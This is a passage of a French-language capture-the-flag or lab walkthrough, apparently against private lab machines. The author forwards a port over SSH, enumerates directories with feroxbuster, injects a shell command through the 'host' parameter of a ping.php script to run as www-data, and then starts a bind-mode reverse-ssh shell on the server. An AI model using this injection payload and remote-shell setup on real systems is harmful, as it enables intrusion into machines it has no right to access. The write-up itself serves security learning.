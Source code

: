 Je vais profiter du compte SSH de `bob` pour forwarder ce port en local :

```bash
ssh -p 2222 -N -L 8080:172.17.0.5:80 bob@192.168.56.67
```

Puis je lance une énumération qui ne met pas longtemps à ramener quelque chose :

```shellsession
$ feroxbuster -u http://127.0.0.1:8080/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt -n

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://127.0.0.1:8080/
 🚀  Threads               │ 50
 📖  Wordlist              │ fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      312c http://127.0.0.1:8080/ping
403        9l       28w      276c http://127.0.0.1:8080/server-status
200        9l       24w      209c http://127.0.0.1:8080/
[####################] - 39s    62260/62260   0s      found:3       errors:0      
[####################] - 38s    62260/62260   1609/s  http://127.0.0.1:8080/
```

Dans le dossier `ping` sur lequel le listing est activé je trouve un script `ping.php` qui m'indique :

```html
Use the host parameter<pre>Array ( ) </pre>
```

Je m'exécute non sans deviner un échappement de commande  :

http://127.0.0.1:8080/ping/ping.php?host=;id

```html
Use the host parameter<pre>Array ( [0] => uid=33(www-data) gid=33(www-data) groups=33(www-data) ) </pre>
```

J'ai rappatrié `reverse-ssh` sur `WebServer` et je l'ai exécuté en mode bind (qui écoute par défaut sur le port `31337`) :

```bash
nohup ./reverse-sshx64
```

